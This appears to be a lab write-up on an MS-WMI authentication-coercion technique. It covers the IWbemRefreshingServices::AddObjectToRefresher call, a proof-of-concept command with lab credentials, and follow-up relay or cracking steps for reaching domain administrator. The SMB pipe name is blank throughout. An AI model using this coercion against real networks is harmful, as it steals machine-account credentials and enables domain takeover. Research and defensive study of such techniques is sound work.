 # MS-WMI - Remote call to IWbemRefreshingServices::AddObjectToRefresher (opnum 3)

## Summary

 - **Protocol**: [[MS-WMI]: Windows Management Instrumentation Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814)

 - **Protocol UUID**: 8bc3f05e-d86b-11d0-a075-00c04fb68820

 - **Protocol version**: 0.0

 - **SMB Named pipe**: ``

 - **Function name**: [`IWbemRefreshingServices::AddObjectToRefresher`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/cf79fb85-e0cb-4778-86de-03da6de4d5d8)

 - **Function operation number**: `3`

 - **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-WMI`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814) protocol (with uuid `8bc3f05e-d86b-11d0-a075-00c04fb68820` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-WMI`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-WMI]: Windows Management Instrumentation Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814) and allows to call RPC functions of this protocol. We will then call the remote [`IWbemRefreshingServices::AddObjectToRefresher`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/cf79fb85-e0cb-4778-86de-03da6de4d5d8) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
IWbemRefreshingServices::AddObjectToRefresher('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT AddObjectToRefresher(
   [in] _WBEM_REFRESHER_ID* pRefresherId,
   [in, string] LPCWSTR wszPath,
   [in] long lFlags,
   [in] IWbemContext* pContext,
   [in] DWORD dwClientRefrVersion,
   [out] _WBEM_REFRESH_INFO* pInfo,
   [out] DWORD* pdwSvrRefrVersion
 );
```

## References

 - Documentation of protocol [MS-WMI]: Windows Management Instrumentation Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/c476597d-4c76-47e7-a2a4-a564fe4bf814

 - Documentation of function `IWbemRefreshingServices::AddObjectToRefresher`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-wmi/cf79fb85-e0cb-4778-86de-03da6de4d5d8